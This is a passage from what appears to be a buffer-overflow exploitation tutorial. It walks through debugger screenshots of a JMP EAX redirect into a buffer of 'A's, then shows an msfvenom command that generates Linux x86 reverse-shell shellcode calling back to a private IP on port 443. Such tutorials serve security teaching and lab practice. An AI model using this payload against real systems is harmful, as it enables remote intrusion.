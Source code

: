 ![](./img/Chapter12/20.png)

The next instruction is the ADD EAX, 12 and JMP EAX

![](./img/Chapter12/21.png)

After the JMP EAX instruction, we get the buffer of 'A's

![](./img/Chapter12/22.png)

## **7. Getting a Shell**

Using the Metasploit `msfvenom` tool to generate a reverse shell shellcode

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.190.133 LPORT=443 -b "\x00\x20" -f py -v shellcode
```

![](./img/Chapter12/23.png)
